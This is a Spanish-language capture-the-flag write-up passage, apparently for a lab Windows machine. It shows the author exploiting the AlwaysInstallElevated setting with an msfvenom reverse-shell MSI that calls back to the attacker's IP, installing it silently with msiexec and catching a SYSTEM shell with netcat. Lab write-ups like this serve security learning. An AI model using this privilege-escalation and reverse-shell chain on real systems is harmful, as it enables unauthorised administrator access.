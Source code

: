 # Root.txt

Empiezo enumerando el sistema con winPEAS y me encuentro con un vector para escalar privilegios:

![navegador11](https://user-images.githubusercontent.com/67548295/128912006-96ab58d2-0650-46ba-ac43-46fb15df5aba.png)

Tenemos habilitado el AlwaysInstallElevated que hace que cualquier paquete de instalacion que instalemos, se haga como administrador, esto es crítico

ya que podemos crear un paquete de instalación malicioso con `msfvenom` para ganar acceso como administrador.

Hagamos eso, primero creamos el paquete con `msfvenom`:

```bash
┌─[z3r0byte@z3r0byte]─[~]
└──╼ $msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.10 LPORT=4444 -f msi -o laZeroShell.msi
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of msi file: 159744 bytes
Saved as: laZeroShell.msi
```
ahora lo transferimos a la máquina y lo intalamos con msiexec mientras estamos en escucha:

```bash
msiexec /quiet /qn /i laZeroShell.msi

C:\Users\Phoebe\Desktop>
```

* **/quiet**: silencia cualquier mensaje durante la instalación
* **/qn**: sin interfaz gráfica
* **/i**: opción de instalación del paquete

Una vez hecho este comando mientras previamente estabamos en escucha con netcat, comprobamos y obtenemos una shell:

```bash
┌─[z3r0byte@z3r0byte]─[~]
└──╼ $ nc -lvnp 4444
Listening on 0.0.0.0 4444
Connection received on 10.10.10.239 64361
Microsoft Windows [Version 10.0.19042.867]
(c) 2020 Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32> whoami
whoami
nt authority\system
```

Y listo señores, a partir de aqui podriamos ver la flag de root en C:\Users\Admnistrator\Desktop\root.txt:
